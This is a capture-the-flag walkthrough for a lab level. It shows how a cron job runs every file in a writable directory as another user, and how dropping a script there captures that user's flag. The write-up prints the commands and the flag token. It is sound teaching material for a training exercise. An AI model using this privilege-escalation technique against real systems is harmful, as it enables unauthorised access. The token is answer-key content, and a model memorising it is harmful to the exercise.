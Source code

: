 # Level 05

## Resolution

Once we log-in, we get a notification.

```shell
  You have new mail.
```

> Linux distributions usually store their mails under `/var/mail`.

So we simply have to `cat` the latest mail sent to user `level05`.

```shell
  $> cat /var/mail/level05
  */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This mail is a [cron](https://en.wikipedia.org/wiki/Cron) job report. As explained in the mail, the script `/usr/sbin/openarenaserver` is runned as user `flag05` every 2 minutes.

The executed script is the following:

```shell
  $> cat /usr/sbin/openarenaserver

  #!/bin/sh

  for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
  done
```

> This script will look for every file in `/opt/openarenaserver` and try to execute them before deletion.

Knowing that `cron` run jobs in background and that this script is executed as user `flag05`, all we have to do is to write a script that output the result of `getflag` to a readable file.

```shell
  $> echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag
```

Wait for the job to be triggered by checking the content of `/opt/openarenaserver` with `ls`. Once the file disappear, simply cat the output file and get the flag.

```shell
  $> cat /tmp/flag
  Check flag.Here is your token : viuaaale9huek52boumoomioc
```
So, `viuaaale9huek52boumoomioc` is the flag for this level.

## Ressources

- [cron](https://en.wikipedia.org/wiki/Cron)